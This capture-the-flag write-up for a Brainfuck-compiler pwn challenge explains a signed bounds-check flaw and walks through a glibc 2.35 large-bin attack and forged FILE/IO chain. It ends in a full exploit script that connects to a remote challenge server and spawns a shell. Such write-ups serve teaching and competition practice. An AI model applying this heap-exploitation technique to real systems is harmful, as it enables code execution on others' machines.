


### vulnerability

Every time the data pointer is incremented by 1, it will be judged whether there is an out-of-bounds. The assembly code uses `jg`, which is a signed judgment, so the data can be written out of bounds when the pointer is reduced to a negative number.

```assembly
pwndbg> x/32xi 0x7ffff7fba000
   0x7ffff7fba000:      mov    rax,QWORD PTR [rdi+0x8]
   0x7ffff7fba004:      mov    rbx,QWORD PTR [rdi+0x10]
   0x7ffff7fba008:      inc    rbx
   0x7ffff7fba00b:      cmp    rax,rbx
   0x7ffff7fba00e:      jg     0x7ffff7fba052 <--
```


### exploit

1. Use large bin attack to modify `stderr` to a controllable heap address.

2. Construct an IO chain, for details, please refer to [house of apple 2.](https://bbs.pediy.com/thread-273832.htm)

3. Use `__malloc_assert` to trigger IO stream

#### leak heap and libc

After the data pointer is added to 0x10, there will be a chunk in tcache, and the heap address can be leaked by reducing the pointer to the corresponding negative number.

When the data pointer is added to 0x800, the previously used 0x810 size chunk will be placed in the unsorted bin, which can also leak libc.

#### large bin attack

The size of the chunk to be malloced each time is twice the size of the previous one. But the two chunks required by the large bin attack must be in the same group size (for example, 0x800, 0x810), so we need to forged the size of the unsorted bin chunk.

My approach is to add the pointer to 0x400 first, and use the `?` option to prevent chunk merging.

Then add the pointer to 0x1000. At this time the 0x1010 chunk(chunk A) is in unsorted bin, and the 0x810(chunk B) one is in large bin.



Forge a chunk of size 0x800 in chunk A.

Modify bk_size of chunk B to `stderr_addr-0x20`, forge the `_IO_FILE` structure, set the relevant fields to pass the check and set the `vtable` filed to `_IO_wfile_jumps-(0x60-0x18)`. 

Forge an `_IO_wide_data` structure, and also set the relevant fields including `vtable` ,

Add the pointer to 0x2000 to trigger large bin attack then `stderr` is changed to the address of chunk A.



Finally, modify the A bit of the size field of chunk A and use large bin attack again. The program will trigger` __malloc_assert` because the check in malloc.c:4105 cannot pass, and finally call `system("sh")`


#### trick 

Use ` ,[>>>>>>>>,]` similar format code to achieve unlimited reading and writing and pointer addition and subtraction. This approach may change some fields of the chunk, just pay attention to the modification.

### script

```python
#!/usr/bin/python3
from pwncli import *

context.terminal = ['tmux','splitw','-h']
context.arch="amd64"
context.log_level="debug"

def debug(addr=-1,PIE=True):
    if addr == -1:
        gdb.attach(p)
    else:
        if PIE:
            gdb.attach(p,'''b *$rebase({})
                            directory /usr/src/glibc/glibc-2.35/
                            b ./malloc/malloc.c:306
                            c
                            '''.format(hex(addr)))
        else:
            gdb.attach(p,"b *{}".format(hex(addr))) 


def log(strr,addr):
    info("\033[0;31m{} --> {}\033[0m".format(strr,hex(addr)))

code = b""
data = b""
data2 = b""

def ptr_add(x, pad=b'a', step=8):
    global code
    global data
    code += b",[" + b'>'*step + b",]"
    data += pad*(x//step) + b'\x00'

def ptr_add2(x, pad=b'a', step=8):
    global code
    global data2
    code += b",[" + b'>'*step + b",]"
    data2 += pad*(x//step) + b'\x00'

def ptr_sub(x, pad=b'a', step = 8):
    global code
    global data
    code += b",[" + b'<'*step + b",]"
    data += pad*(x//step) + b'\x00'

def ptr_sub2(x, pad=b'a', step = 8):
    global code
    global data2
    code += b",[" + b'<'*step + b",]"
    data2 += pad*(x//step) + b'\x00'

def write_bytes(x):
    global code
    global data
    code += b".>"*x

def read_bytes(content, forword=False):
    global code
    global data
    if forword:
        code += b',>'*len(content)
    else:
        code += b','*len(content)
    data += content

def read_bytes2(content, forword=False):
    global code
    global data2
    if forword:
        code += b',>'*len(content)
    else:
        code += b','*len(content)
    data2 += content

def main():
    
    global code
    global data
    global p
    global data2

    p=remote('119.13.89.159',3301)
    #p=remote('0.0.0.0', 3344 )
    #p = process("./bfc")
    
    ptr_add(0x20)
    ptr_sub(0x20+0x10+0x18, b'\x90')
    code += b'<'*8
    # leak heap
    write_bytes(0x8)
    ptr_add(0x18+0x10+0x400)
    # Prevent chunk merging
    code += b'??'
    ptr_add(0x400)
    ptr_sub(0x800+0x10+0x800+0x20, b'\xe0', 0x10)
    read_bytes(b'\xe0')
    # leak libc
    write_bytes(0x8)
    code += b'>'*0x8

    ptr_add(0x800+0x20, b'\x10', 0x10)

    ptr_add(0x1000)
    ptr_sub(0x1000+0x10+(0x1000)+0x8, b'\xe0')

    ptr_sub(0x28+0x800-0x18)
    # forge bk_size
    read_bytes2(p64(u64_ex("bk_size")), True)
    ptr_add2(0x800-0x20+0x10, b'\x10')
    read_bytes2(b'\x20')
    ptr_add2(0x18)
    # forge a chunk smaller than the one in large bin
    read_bytes2(p64(0x801), True)
    
    ptr_add2(0x7f0-0x20+0x20, b'\xe0')
    read_bytes2(p64(0x800)+p64(0x20), True)
    ptr_add2(0x820, b'\x11')

    ptr_add2(0x2000-0x10)
    # back to the forged 0x800 chunk
    ptr_sub2(0x2000+0x10+0x2000-0x10, b'\x10', 0x10)
    ptr_sub2(0x20+0x1000+0x10, b'\x11', 0x10)
    # forge _IO_FILE struct
    # set f->flags
    read_bytes2(p64(u64_ex("  sh")), True)
    # set A bit of size field for triggering __malloc_asset in _int_malloc 
    read_bytes2(p64(0x811|4), True)
    # set f->_lock
    ptr_add2(0x88-0x10)
    read_bytes2(p64(u64_ex("_lock")), True)
    # set f->_wide_data
    ptr_add2(0xa0-0x90, b'\xd0', 0x10)
    read_bytes2(p64(u64_ex("widedata")), True)
    ptr_add2(0x30)
    # set f->vtable
    read_bytes2(p64(u64_ex("fvtable")), True)
    # back to 0x2000 chunk (in unsorted bin) 
    ptr_add2(0xf30, b'\x11', 0x10)
    # forge a 0x820 chunk 
    code += b'>'*0x8
    read_bytes2(p64(0x821), True)
    # fix fd
    ptr_add2(0x810, b'\xe0', 0x10)
    # set prev_size and size
    read_bytes2(p64(0x820), True)
    read_bytes2(p64(0x60), True)

    ## mov to 0x4000 chunk
    ptr_add2(0x1800-0x10)
    # forge _wide_data
    ptr_add2(0x18)
    # set _wide_data->_IO_write_base
    read_bytes2(p64(0), True)
    # 
    ptr_add2(0x10)
    # set _wide_data->_IO_buf_base
    read_bytes2(p64(0), True)
    ptr_add2(0xe0-0x30-0x8)
    read_bytes2(p64(u64_ex("wvtable")),True)
    read_bytes2(p64(u64_ex("system")),True)
    ptr_add2(0x4000-0xf0)

    #debug(0x2D59)
    p.sendlineafter(b":",str(len(code)))
    p.sendlineafter(b":", code)
    sleep(0.1)
    
    p.send(data)

    sleep(1)
    heap_base = (u64(p.recv(8)) << 12) - 0x13000
    log("heap_base", heap_base)

    libc_base = u64(p.recv(8)) - 0x219ce0
    log("libc_base", libc_base)
    log("_wide_data", libc_base+0x156b0+0x1000)

    stderr_addr = libc_base + 0x21a860 # 0x21a6a0
    _IO_wfile_jumps = libc_base +  0x2160c0
    fake_wide_data = heap_base + 0x176d0
    _lock_addr = libc_base + (0x7f5eea04da60-0x7f5ee9e32000)
	# fix addresses
    data2 = data2.replace(p64(u64_ex("bk_size")), p64(stderr_addr-0x20))
    data2 = data2.replace(p64(u64_ex("widedata")), p64(fake_wide_data))
    data2 = data2.replace(p64(u64_ex("fvtable")), p64(_IO_wfile_jumps-(0x60-0x18)))
    data2 = data2.replace(p64(u64_ex("wvtable")), p64(fake_wide_data+(0xe0+0x8-0x68)))
    data2 = data2.replace(p64(u64_ex("system")), p64(libc_base + libc.sym["system"]))
    data2 = data2.replace(p64(u64_ex("_lock")), p64(_lock_addr))
    log("system", libc_base + libc.sym["system"])
    log("fake_wide_data",fake_wide_data)

    p.sendline(data2)
    
    p.interactive()


if __name__ == "__main__":
    #libc = ELF('/lib/x86_64-linux-gnu/libc.so.6',checksec=False)
    libc = ELF('./libc.so.6',checksec=False)
    main()
```


### unexpected solution

https://github.com/nobodyisnobody/write-ups/tree/main/RCTF.2022/pwn/bfc
